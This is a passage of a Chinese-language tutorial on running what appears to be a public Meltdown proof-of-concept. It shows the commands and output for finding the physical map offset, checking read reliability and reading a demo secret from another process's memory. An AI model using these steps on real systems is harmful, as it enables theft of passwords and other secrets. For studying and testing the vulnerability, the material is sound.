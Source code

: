 等待一段时间（1分钟到几个小时不等），可以看到类似的输出则说明成功：

```bash
[+] Direct physical map offset: 0xffff880000000000
```

关闭此功能的跳过这个步骤。（如果使用这个功能的话请复制输出的十六进制地址，在后续步骤中会用到，在本文中爱意篇幅不做详细介绍，请读者自行研究项目README）

可读性测试
-----

运行reliability：

```bash
$ sudo taskset 0x1 ./reliability （0xffff880000000000）
```

**这里的括号内容表示，如果我们的Linux已经关闭kalsr那么我们就可以省略括号中这个参数,下文相同** 如果可以看到类似输出，也就是准确性大概大于百分之90，那么说明我们可以利用这个漏洞进行测试了：

```bash
[-] Success rate: 99.93% (read 1354 values)
```



读取内存测试
------

这部分是这个测试项目的核心，原理是运行一个存储着若干密码的程序，并返回其存储密码的内存地址。然后再利用这个漏洞非法访问这个内存地址获得密码的明文。这也就意味着我们的密码输入在这个漏洞之下变得透明，甚至黑客可以通过这个漏洞读取存储在chrome浏览器中的网站密码： 运行密码小程序：

```bash
$ sudo ./secret
```

我们会得到如下输出：

```bash
[+] Secret: If you can read this, this is really bad
[+] Physical address of secret: 0x390fff400
[+] Exit with Ctrl+C if you are done reading the secret
```

这时候我们要记下**0x390fff400**这个地址，不要停止程序，打开另一个终端：

```bash
$ taskset 0x1 ./physical_reader 0x390fff400 (0xffff880000000000)
```

不出意外我们会看到如下结果，下方输出的字符串来自于secret小程序中随机选择的一个密码串：

```bash
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```

https://v.qq.com/x/page/n1331oskfxn.html?start=3
